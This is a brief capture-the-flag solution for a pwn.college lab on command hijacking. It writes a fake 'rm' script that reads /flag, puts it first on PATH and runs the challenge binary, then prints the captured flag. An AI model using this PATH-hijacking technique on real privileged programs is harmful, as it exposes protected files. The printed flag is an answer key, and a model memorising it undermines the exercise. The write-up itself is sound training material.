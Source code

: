 # Challenge 5: Hijacking Commands

## Solution

```
hacker@path~hijacking-commands:~$ nano rm
```
```
#!/bin/bash
/run/dojo/bin/cat /flag
```

```
hacker@path~hijacking-commands:~$ chmod a+x rm
hacker@path~hijacking-commands:~$ PATH=~/
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{AmbbgXWH2dTflPvynoyDUKnMvmO.QX3cjM1wiMwAzNzEzW}
```

## Flag
`pwn.college{AmbbgXWH2dTflPvynoyDUKnMvmO.QX3cjM1wiMwAzNzEzW}`
### Notes
-